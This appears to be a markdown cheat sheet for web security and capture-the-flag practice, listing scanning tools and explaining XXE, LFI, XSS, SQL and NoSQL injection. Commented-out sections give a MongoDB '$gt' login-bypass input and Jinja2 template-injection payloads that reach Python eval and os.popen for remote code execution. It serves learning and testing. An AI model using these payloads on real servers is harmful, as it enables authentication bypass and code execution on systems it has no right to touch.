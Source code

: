 ```yaml
---
Title: Web
Tags: ["guide"]
Image : ""
Description: "find the spider"
Draft: 
---
```


## Introduction

## Related Tools
- Resources
  - PayloadAllTheThings [Github](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master)
- API Testing
  - Postman
  - Insomia
- Web directory bruteforcers
  - dirb (run dirb on terminal)
  - dirbuster (requires GUI)
  - gobuster (similar tool)
  - dirsearch(faster alternative to dirb) [GitHub](https://github.com/maurosoria/dirsearch)
- Web crawlers
  - dirhunt [GitHub](https://github.com/Nekmo/dirhunt)
- Packet utils
  - Burp Suite (requires GUI) [Website](https://portswigger.net/burp)
  - wget


## Key Concepts
- XXE (XML external entity) injection
  - Happens when an application parses uses data from XML files which can be modified to be malicious
  - [Website](https://portswigger.net/web-security/xxe)
- LFI (Local File Inclusion)
  - Commonly found in PHP web application (maybe through Wordpress plugins etc)
  - Vulnerable websites can allow you to access local files through directory traversal
  - Look out for ways where you can supply a file path and it is served as a download/printed to the page
- XSS
  - Stored XSS
    - Website uses external resources that contains malicious code
    - If an SVG with XSS payload is in an iframe or embed of a website, it can be executed
  - Reflected XSS
    - When queries to a website is handled and returned in an unsafe way
  - DOM based XSS
    - Client side attack, browser executes payload that didn't came from the server
- SQL Injection
  - Testing
    - Try using one (single or double) quote for the input and see if there is any errors
    - If an error is returned, the website might be vulnerable
  - Types of attack
    - Union based attack
      - Application displays the output of the query, allowing you to steal information from the database
    - Error based attack
      - Application returns an error with details about the query, helping you to craft queries to bypass checks
  - Resources
    - Sqlmap [GitHub](https://github.com/sqlmapproject/)
    - Learn and try using SQL [Website](http://mystery.knightlab.com/)
- Query Selector Injection
  - In MongoDB + NodeJS web apps
    - Query for login details
    - Malicious input
    - {"$gt": ""} will result in true, $gt is a query selector which compares with ""
  - Mitigation
    - Make sure input gets sanitised as string
    - Remove $ and . to prevent query selectors

<!-- ```js
db.users.find({username: username, password: password});
```
```
{
    "username": {"$gt": ""},
    "password": {"$gt": ""}
}
``` -->

- CSRF
  - Steps to test for CSRF [Guide](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/06-Session_Management_Testing/05-Testing_for_Cross_Site_Request_Forgery)
- Broken Authentication
  - Steps to test for Broken Authentication [Guide](https://owasp.org/www-project-top-ten/2017/A2_2017-Broken_Authentication)
- Apache
  - `.htaccess` files are configuration files for its directory
- Practice
  - bWAPP, a free and open source deliberately insecure web application [Website](http://www.itsecgames.com/)
- Common python applications pitfalls
  - Article explainling various common python application pitfalls which can be exploited [Website](https://medium.com/swlh/hacking-python-applications-5d4cd541b3f1)
- Common files
  - `robots.txt` contains information for crawlers to know which files and directories it has permission to check, this could potentially show hidden files
  - `sitemap.xml` contains infomation about the pages a site has to help search engines crawl and index through the website faster
- AWS configuration flaw
  - Pacu, a web exploitation framework for exploiting configuration flaws in AWS servers [GitHub](https://github.com/RhinoSecurityLabs/pacu)
- Cookie Attack
  - Flask Unsign [Python Tool]](https://pypi.org/project/flask-unsign/)



- Server-side Template Injection (SSTI)
  - Reference [GitHub](https://github.com/w181496/Web-CTF-Cheatsheet#ssti) / [Translated Version](https://github-com.translate.goog/w181496/Web-CTF-Cheatsheet?_x_tr_sl=zh-CN&_x_tr_tl=en&_x_tr_hl=en-US&_x_tr_pto=wapp#ssti)
  - Payload for more languages [Website](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection)
  - Payload all the things SSTI [Github](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection)
<!-- 
```
{{ 7*'7' }}
    Twig: 49
    Jinja2: 7777777
{{ 7 }}
    Golang: 7
```
For Flask servers:

Get config:
`{{config}}`

Python RCE:
```
{% for c in [].__class__.__base__.__subclasses__() %}
  {% if c.__name__ == 'catch_warnings' %}
    {% for b in c.__init__.__globals__.values() %}
    {% if b.__class__ == {}.__class__ %}
      {% if 'eval' in b.keys() %}
        {{ b['eval']('<Python code here>') }}
      {% endif %}
    {% endif %}
    {% endfor %}
  {% endif %}
{% endfor %}
```

Execute shell statements:
```
{% for c in [].__class__.__base__.__subclasses__() %}
  {% if c.__name__ == 'catch_warnings' %}
    {% for b in c.__init__.__globals__.values() %}
    {% if b.__class__ == {}.__class__ %}
      {% if 'eval' in b.keys() %}
        {{ b['eval']('__import__("os").popen("<SHELL STATEMENT HERE>").read()') }}
      {% endif %}
    {% endif %}
    {% endfor %}
  {% endif %}
{% endfor %}
```
Get all classes:
```
{{ ''.__class__.__mro__[2].__subclasses__() }}
```

Get local/global variables (from Python RCE)
```
    {% for c in [].__class__.__base__.__subclasses__() %}
      {% if c.__name__ == 'catch_warnings' %}
        {% for b in c.__init__.__globals__.values() %}
        {% if b.__class__ == {}.__class__ %}
          {% if 'eval' in b.keys() %}
            {{ b['eval']('dict(globals(), **locals())') }}
          {% endif %}
        {% endif %}
        {% endfor %}
      {% endif %}
    {% endfor %}
```

For golang:
```
{{.<variable or function here>}}
``````

Note that the dot is important. -->

## .